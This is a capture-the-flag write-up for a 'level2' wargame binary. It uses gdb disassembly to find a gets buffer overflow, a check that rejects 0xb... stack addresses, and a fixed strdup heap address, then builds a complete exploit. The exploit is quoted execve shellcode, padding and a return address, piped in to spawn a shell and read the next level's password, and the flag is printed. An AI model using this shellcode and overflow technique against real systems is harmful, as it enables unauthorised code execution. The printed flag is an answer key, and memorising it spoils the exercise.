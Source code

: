 Execute the *level2* binary:

```bash
./level2
abcd
```

```
```

> Note the *level2* binary reads the user input from stdin like the *level1*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x0804853f <+0>:	    push   ebp
   0x08048540 <+1>:	    mov    ebp,esp
   0x08048542 <+3>:	    and    esp,0xfffffff0
   0x08048545 <+6>:	    call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

Check the *p* function called from the main:

```gdb
disass p
```

```gdb
Dump of assembler code for function p:
...
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>     ; call gets
...
   0x080484fb <+39>:	and    eax,0xb0000000           ; check if the return address
   0x08048500 <+44>:	cmp    eax,0xb0000000           ; start by 0xb...
   0x08048505 <+49>:	jne    0x8048527 <p+83>         ; continue to exit if don't match
...
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>   ; print the return adress
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>    ; exit the program

...
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax      ; copy the input string from the stack to
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>   ; to a new address returned in eax
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

Like in the *level1*, the vulnerable function *gets* is called.

But if the saved return address eip is changed in the stack and start by *0xb...* (AND comparaison), the program print this return address and exit.

And because the local addresses of the the current stack frame start by *0xb...*, we can't point the return address to potential writed instructions in local.

So for continue the program after an potential overwrite, the return address can't start by *0xb...*.

Next, the *strdup* is called. After multiple runs, note the address returned by *strdup* is always the same:

```gdb
break *0x80484ea
break *0x804853d
run
jump *0x80484f2
info register eax
```

```gdb
eax            0x804a008        134520840
```

The strdup return always the same address because the [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR#:~:text=Address%20space%20layout%20randomization%20(ASLR)%20is%20a%20memory%2Dprotection,executables%20are%20loaded%20into%20memory.) is not active:

```bash
file ./level2
```

```
./level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

> *LSB executable* means the program [doesn't implement ASLR](https://unix.stackexchange.com/questions/89211/how-to-test-whether-a-linux-binary-was-compiled-as-position-independent-code).

So the address returned by strdup is always __0x804a008__ and not start by *0xb...*.

The solution is to overwrite the saved return address in the stack to point to the new allocated address and put in this new a [shellcode](https://en.wikipedia.org/wiki/Shellcode).

Choose [this](https://shell-storm.org/shellcode/files/shellcode-585.html) shellcode:

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \x00
```

> Add *\x00* to end the string "/bin/bash"

To overwrite the saved return address (eip), have to calculate the difference between the buffer address given to *gets* and the return address saved on the top of the stack:

```gdb
break *0x080484ed
run
info register eax
info frame
```

```gdb
eax            0xbffff5dc       -1073744420
...
 Saved registers:
  ebp at 0xbffff628, eip at 0xbffff62c
...
```

> saved eip - eax = 0xbffff62c - 0xbffff5dc = 3221222956 - 3221222876 = __80 bytes__

To overwrite the saved eip return address, the input need to have a length of 80 bytes, starting by the shellcode that needs to bed executed followed by the value we want (here the *run* function address).

> Note the shellcode is going to be written twice: first in the local stack frame with *gets* to reach the return address, and after in the heap with *strdup* where it will be executed later (that's what interests).

- __26__ (26/80) bytes: shellcode
- __54__ (80/80) bytes: padding
- __04__ address bytes: reversed address from the *strdup* call

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end): (0x)804a008 > "\x08\xa0\x04\x08"

```bash
(echo -e "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x08\xa0\x04\x08" ; cat ) | ./level2
cat /home/user/level3/.pass
exit
```

> Use __cat__ to keep stdin open.

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```